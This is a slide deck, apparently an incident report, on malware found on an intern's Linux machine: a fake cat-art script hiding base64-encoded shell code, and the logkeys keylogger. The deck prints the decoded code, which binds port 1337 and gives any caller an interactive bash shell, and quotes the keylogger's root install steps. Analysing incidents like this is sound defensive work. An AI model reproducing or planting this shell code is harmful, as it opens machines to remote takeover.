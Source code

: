 ```yaml
---
title: "Malware on the Intern's Machine"
format:
    revealjs:
        incremental: false
        theme: dark
        #center: true
execute:
  freeze: true
---
```


# Overview

* `cute_cat_ascii_art_generator.py`
    * Reverse shell
* logkeys
    * Linux keylogger


# Reverse Shell

```
# Our special kitty code (it makes the CUTEST kitties in the background!)
kitty_code = "omited for brevity""
kitty_recipe = base64.b64decode(kitty_code).decode('utf-8')
```

Decodes base64 obfuscated code, saves it to a file.

# Reverse Shell (cont.)

Base64 code, deobfuscated. Much of it is ommitted for brevity.

```
def main():
    # Create the socket
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    # Bind to all interfaces on port 1337
    try:
        server.bind(('0.0.0.0', 1337))
        server.listen(5)

    # Main loop to accept connections
    while True:
        try:
            client, addr = server.accept()

            # Send the splash text
            client.send(splash.encode() + b'\n')

            # Start a shell for the client
            process = subprocess.Popen(
                ["/bin/bash", "-i"],
                stdin=client,
                stdout=client,
                stderr=client
            )
```

# Reverse Shell Impact/Mitigations
* Was not running
* Software was deleted

# Keylogger

* <https://github.com/kernc/logkeys>
* Simple Linux Keylogger
* git repository (and zipped version) was found in the home dir

# Keylogger Impact/Mitigations

* Service was stopped and the software was removed
* Was active and logging to /var/log
* No data was exfiltrated
* Intern user no longer has privilege escalation permissions

# Keylogger Install

From the [logkeys install instructions](https://github.com/kernc/logkeys/blob/master/INSTALL)

```
$ make
$ su               # get root to install in system
$ make install     # installs binaries, manuals and scripts
```

* Root is required
* Intern user had root access, and these commands were in there history